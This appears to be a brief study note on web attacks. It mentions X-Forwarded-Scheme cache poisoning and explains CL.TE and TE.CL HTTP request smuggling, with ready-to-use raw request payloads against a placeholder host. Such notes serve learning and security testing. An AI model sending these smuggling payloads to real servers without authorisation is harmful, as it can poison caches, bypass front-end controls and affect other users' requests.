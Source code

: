 ### X-Forwarded-Scheme web cache poisoning method

![https://user-images.githubusercontent.com/45040001/198842791-c04aa06e-2818-435a-8556-9b0e57c2ca7f.png](https://user-images.githubusercontent.com/45040001/198842791-c04aa06e-2818-435a-8556-9b0e57c2ca7f.png)

# HTTP Request Smuggling

Study up on this in general

Attack exploiting the difference in request interpretation between the front-end server and the back-end server.

CL.TE

If both Content-Length and Transfer-Encoding are present

Front server: prioritize Content-Length.

Back server: prioritize Transfer-Encoding.

In this case, it is possible to recognize the end of the first request on the back server and connect it to the second request, allowing execution of an unexpected HTTP method (e.g. GPOST). In the example below, it is possible to pass the HTTP method to the vulnerable back server as GPOST.

```
POST / HTTP/1.1
Host: target.com
Content-Length: 8
Transfer-Encoding: chunked

0

G

```

TE.CL

Front server: prioritize Transfer-Encoding.

Back server: prioritize Content-Length.

```
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: target.com
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
